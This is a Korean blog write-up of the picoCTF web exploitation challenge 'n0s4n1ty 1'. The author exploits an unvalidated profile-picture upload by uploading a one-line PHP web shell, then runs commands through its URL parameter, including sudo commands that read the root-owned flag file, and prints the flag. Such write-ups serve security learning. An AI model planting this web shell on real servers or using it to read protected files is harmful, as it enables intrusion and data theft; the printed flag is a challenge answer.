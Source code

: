 ```yaml
---
title: "(Easy) n0s4n1ty 1"
date: 2025-08-11 00:00:00 +0900
categories: ["< picoCTF >" , Web Exploitation]
tags: [picoctf, n0s4n1ty 1, web hacking, write-up]
---
```


# picoCTF / Web Exploitation

---

#### Difficulty Level : Easy
#### Title : n0s4n1ty 1

---

![n0s4nlty 1 figure1](/assets/img/picoCTF/2025-08-05-13-46-12.png)

> [Description]  
> 한 개발자가 웹사이트에 프로필 사진 업로드 기능을 추가했지만, 이 구현에는 결함이 있습니다. 이로 인해 당신에게 기회가 생겼습니다.  
> 당신의 임무는 (수락한다면) 제공된 웹 페이지에 접속해 파일 업로드 영역을 찾아내는 것입니다. 궁극적인 목표는 /root 디렉터리에 숨겨진 플래그를 찾는 것입니다.

일단 Description 만 읽었을 때는 "파일 업로드"라는 단어가 자꾸 걸린다...

(파일 업로드 취약점이 먹힐 것 같은 느낌...)

우선 우측 상단에 `Launch Instance`를 클릭해서 문제 접속을 위한 인스턴스를 생성하고,  
생성한 링크에 접속해보자.

![n0s4nlty 1 figure2](/assets/img/picoCTF/2025-08-05-13-53-43.png)

링크에 접속하면 사진과 같은 화면을 볼 수 있는데,

파일 선택을 통해 업로드할 파일을 지정하고, Upload Profile 버튼을 누르면 해당 파일이 서버에 업로드 되는 것 같다.

<br>

일단 아무 파일이나 올려봤다.

![n0s4nlty 1 figure3](/assets/img/picoCTF/2025-08-05-14-00-00.png)

\!?!?!?!?  

Profile 업로드라길래 사진만 올릴 수 있는줄 알았는데, 그냥 아무 파일이나 다 올라가는 모양이다. (검증 x)

파일 업로드 취약점이 존재한다는 것을 알았으니, **웹쉘** 을 업로드해서 플래그가 있다고 하는 /root 폴더에 접근해보자.

### Web Shell?
웹 쉘은 웹 서버에 업로드된 악성 스크립트 파일로, 공격자가 해당 서버를 원경에서 제어할 수 있게 해주는 도구를 말한다.

웹 쉘은 주로 php 코드로 작성되는데,  
그 이유는 php가 서버에서 바로 실행되는 언어이기 때문이다.

또한 많은 웹 서버가 php를 기본적으로 지원하고 있으며, 간단한 문법으로도 강력한 기능 구현이 가능하기 때문에 php 코드를 사용한다.

<br>

웹 쉘은 다음과 같이 작성해주었다.

```php
<?php echo shell_exec($_GET['cmd']); ?>
```
(인터넷에 치면 많이 나옴...)

해당 스크립트를 `webshell.php`라는 이름으로 저장하고 이를 업로드해봤다.

![n0s4nlty 1 figure4](/assets/img/picoCTF/2025-08-05-14-11-12.png)

역시나 잘 올라간다.

친절하게 어디에 올라갔는지 경로도 알려준다.

<br>

URL Path 부분에 해당 경로를 입력해서 웹 쉘이 제대로 실행되는지 확인해보자.  
(해당 웹쉘 파일에 접근하는 것만으로도 서버가 스크립트를 바로 실행해버림)

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php`

![n0s4nlty 1 figure5](/assets/img/picoCTF/2025-08-05-14-14-51.png)

스크립트에서 사용한 `shell_exec()` 함수에서 오류가 발생한 것을 보니 스크립트는 잘 실행되는 것 같다.

<br>

이제 /root 폴더 내부를 확인해보자!

업로드한 웹 쉘은 GET 방식으로 cmd에 값을 받아 명령어를 실행하므로, 다음과 같은 방식으로 명령어를 전달 할 수 있다.

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=ls%20/root`  
(%20은 띄어쓰기)

![n0s4nlty 1 figure6](/assets/img/picoCTF/2025-08-05-14-20-05.png)

?!?!?!?!

아무것도 안뜬다...

왜냐하면 권한이 없기 때문...

명령 하나를 root 권한으로 실행시키는 방법이 있는데,  
바로 `sudo` 이다.

`sudo`를 앞에 붙여서 다시 확인해보면.

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=sudo%20ls%20/root`

![n0s4nlty 1 figure7](/assets/img/picoCTF/2025-08-05-14-22-18.png)

오오오 보인다!

이제 해당 파일을 또 `sudo`와 함께 읽어주면?

`http://standard-pizzas.picoctf.net:60182/uploads/webshell.php?cmd=sudo%20cat%20/root/flag.txt`

![n0s4nlty 1 figure8](/assets/img/picoCTF/2025-08-05-14-23-34.png)

이렇게 플래그를 얻어낼 수 있다.

<br>

flag : ~~picoCTF{wh47_c4n_u_d0_wPHP_f7424fc7}~~